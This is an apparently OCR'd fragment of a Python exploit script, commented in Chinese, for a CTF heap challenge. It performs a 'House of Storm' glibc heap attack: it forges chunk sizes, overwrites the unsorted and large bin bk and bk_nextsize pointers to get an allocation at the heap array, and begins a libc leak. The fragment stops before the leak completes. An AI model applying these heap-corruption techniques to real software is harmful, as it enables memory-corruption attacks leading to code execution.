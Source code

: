 	add(0x18)#6  
	
	#----------------准备 unsorted chunk-----------------------#
	edit(1,'\x00'*0x4F0+p64(0x500)) 
	free(1)
	edit(0,'\x00'*(0x18-12))  
	add(0x18) #1 
	add(0x4d8) #7  
	
	free(1)   
	free(2) #1-2 合并  
	
	add(0x38)#1
	add(0x4e8)#2   
	
	#-------------------准备 large chunk-----------------------------------#
	edit(4,'\x00'*0x4F0+p64(0x500))#伪造chunk
	free(4)
	edit(3,'\x00'*(0x18-12)) 
	add(0x18) #4
	add(0x4d8) #8  
	
	free(4)
	free(5) #4-5 
	
	add(0x48)#4  
	#---------------unsorted chunk 和 large chunk 放到对应位置----------------------#
	free(2)
	add(0x4e8) 
	free(2)   
	#--------------修改他们是的满足条件进行 house of strom------------------------------#
	fake_chunk = 0x13370800 - 0x20
	payload = '\x00' * 0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
	edit(7, payload) #修改unsorted chunk的bk
	
	payload = '\x00' * 0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) + p64(0) + p64(fake_chunk-0x18-5)
	edit(8, payload) #修改 large chunk 的 bk 和 bk_nextsize
	add(0x48)  #2  -> 0x133707e0   成功将申请到了heaparray附近
	
	 
	
	#-----------------------泄漏 libc----------------------------------#
	#由于bins中的chunk的fd,bk指向libc的地址，我们先要泄漏heap的地址
	
	payload = p64(0)*6 + p64(0x13370800)
	edit(2, payload) #修改了r0~r4为0，并且修改了chunk0的地址，此时的chunk0的size非常大，因为异或的是0
	
	#dbg()
	 
	payload = p64(0)*3 +p64(0x13377331)  #满足show的条件
	
	payload += p64(0x13370800) + p64(0x1000) #chunk0
	payload += p64(fake_chunk+3) + p64(8)   #chunk1
	edit(0, payload) #满足show的条件
	
	#dbg()
	